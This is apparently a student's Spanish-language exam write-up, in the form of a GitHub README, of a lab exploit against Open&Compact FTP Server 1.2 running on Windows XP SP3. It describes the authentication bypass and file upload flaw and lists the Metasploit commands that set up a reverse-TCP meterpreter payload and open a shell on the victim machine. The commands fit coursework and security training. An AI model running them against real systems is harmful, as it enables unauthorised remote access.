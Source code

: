 # Parcial_Ciberseguridad
PARCIAL CIBERSEGURIDAD 2019 - CRISTHIAN CHICA A.

Vulnerabilidad:
Este modulo explota multiples vulnerabilidades en el servidor Open&Compact FTP, como omisión de autenticacion y vulnerabilidad en
la carga de archivos arbitrario, es decir que esto permite a un atacante remoto escribir archivos en el sistema de archivos siempre que un usuario tenga
permisos, este modulo solo funciona con versiones inferiores a Windows Vista.
Existe una perdida completa de la proteccion del sistema, lo que hace que este se vea comprometido, no es necesario estar autenticado
para explotar la vulnerabilidad

Sistema Operativo:
El sistema operativo desde el cual se hace el ataque es Kali-Linux y el sistema operativo victima es Windows XP SP3

Software:
A parte de las maquinas virtuales ->Kali-Linux y Windows XP SP3, se hace uso del software Open-ftpd.1.2

Instructivo:
Inicialmente procedemos a correr las maquinas virtuales ->Kali-Linux y Windows XP SP3, una vez hecho esto descargamos el Open&Compact
FTP Server 1.2 o inferior a esta, ya que el exploit solo funciona con estas versiones, lo pasamos a traves de la Carpeta Compartida a Kali-Linux para que de una vez abramos la consola y descomprimamos el archivo con extension tar.gz, hecho esto pasamos el archivo por medio de la carpeta compartida a la maquina virtual Windows XP SP3 y corremos el ejecutable "ftp.exe" con esto ya garantizamos el requisito para poder realizar el exploit, observamos que direccion ip tienen ambas maquinas, despues en Kali-Linux procedemos a cargar la consola de metasploit, seleccionamos el tipo de exploit que en ese caso es el "exploit/windows/ftp/open_ftpd_wbem" de ahi debemos de setear el tipo de payload que usaremos, en el caso utilizamos un payload de tipo stage para poder hacer uso del meterpreter que opera mediante inyeccion dll y no deja rastros en el disco duro, luego indicamos con lhost cual será la maquina atacante y con rhost cual sera la maquina victima, realizado esto procedemos a hacer el exploit, es decir, a hacer provecho de la vulnerabilidad de seguridad del sistema. Se crea la sesión del meterpreter y a partir de aquí ya accedo a la maquina victima.

COMANDOS:
msfconsole
use exploit/windows/ftp/open_ftpd_wbem
set payload windows/meterpreter/reverse_tcp
set lhost <ip_atacante>
set rhost <ip_victima>
exploit
meterpreter>sysinfo
meterpreter>shell
